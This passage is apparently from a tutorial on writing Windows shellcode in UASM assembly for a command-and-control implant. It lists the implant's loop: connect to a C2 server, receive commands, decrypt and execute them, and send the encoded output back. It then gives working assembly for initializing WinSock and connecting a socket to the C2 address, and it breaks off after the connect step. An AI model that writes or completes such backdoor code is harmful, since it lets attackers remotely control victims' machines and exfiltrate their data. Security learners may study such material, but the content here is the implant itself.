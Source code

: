 Using the `struct`, we now have a convenient way to access the different offsets of a memory location based on a simple label. The assembler will automatically generate the offset calculations for us.

## Writing the Shellcode

Now that some basics of working with code in UASM have been covered, we can get to actually implementing the algorithm. At a high level, we need to:

1. Initialize WinSock
2. Create a socket object
3. Initialize the socket connection address
4. Connect the socket to the C2 server
5. Loop and receive the commands from the server
6. If:
   - Command is wait: Sleep and reloop
   - Command is exit: Exit the process
   - Command is exec:
     - Decrypt the command string
     - Execute command
     - Read the output of the command
     - Encode the output of the command
     - Send the encoded output to the C2 server

#### Init WinSock, Create Socket & Address, Connect

```asm
        ; Initialize Winsock
        invoke WSAStartup, 516, addr wsa_data
        test eax, eax
        jnz _exit
        
        ; Create a socket
    _create_socket:
        invoke socket, af_inet, sock_stream, ipproto_tcp
        cmp eax, socket_error
        je _exit
        mov dw_socket, eax

        ; Setup connection information
        invoke RtlZeroMemory, addr sock_addr, sizeof sockaddr_in
        invoke inet_addr, addr g_command_ip
        mov sock_addr.sin_addr, eax
        mov sock_addr.sin_family, af_inet
        invoke htons, g_command_port
        mov sock_addr.sin_port, ax

        ; Connect to command server 
    _connect:
        invoke connect, dw_socket, addr sock_addr, sizeof sock_addr
        cmp eax, socket_error
        je _reconnect
```
